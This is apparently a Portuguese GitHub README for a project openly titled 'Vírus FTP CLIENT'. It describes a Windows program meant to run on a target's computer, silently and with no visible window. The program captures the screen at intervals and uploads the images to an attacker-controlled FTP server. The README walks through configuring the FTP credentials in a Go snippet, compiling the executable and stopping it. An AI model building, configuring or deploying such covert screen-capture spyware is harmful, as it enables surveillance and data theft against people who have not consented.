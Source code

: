 # Vírus FTP CLIENT

Uma aplicação que roda em segundo plano para capturar telas e enviá-las a um servidor FTP remoto.

## Visão Geral

Esta ferramenta foi projetada para ser executada no computador do cliente (alvo). Uma vez iniciada, ela:

- Roda silenciosamente em segundo plano sem janela visível
- Captura telas em intervalos configuráveis
- Envia as capturas para um servidor FTP que você controla
- Reconecta automaticamente se a conexão FTP for perdida

## Configuração

### Configuração do Servidor FTP

1. Crie um servidor FTP temporário gratuito em [SFTPCloud](https://sftpcloud.io/tools/free-ftp-server)
   - Isso fornece um servidor FTP gratuito por 1 hora com 1GB de armazenamento
   - Anote o endereço do servidor, nome de usuário e senha fornecidos
   
2. Ou use qualquer outro servidor FTP de sua escolha

### Configuração do Cliente

1. Abra `cmd/client/main.go` e configure.

```go
config := pkg.Config{
    ServerAddress: "seu-servidor-ftp.com", // Substitua pelo endereço do seu servidor FTP
    Username:      "seu-usuario",          // Substitua pelo seu nome de usuário FTP
    Password:      "sua-senha",            // Substitua pela sua senha FTP
    Interval:      5,                      // Captura a cada 5 segundos
}
pkg.StartMonitoringWithConfig(config)
```

### Compilando a aplicação

Execute o script `build.bat` para compilar a aplicação:

```
build.bat
```

Isso criará o arquivo `screenshot-client.exe` na pasta bin/

### Parando a aplicação

```cmd
taskkill /F /IM screenshot-client.exe
```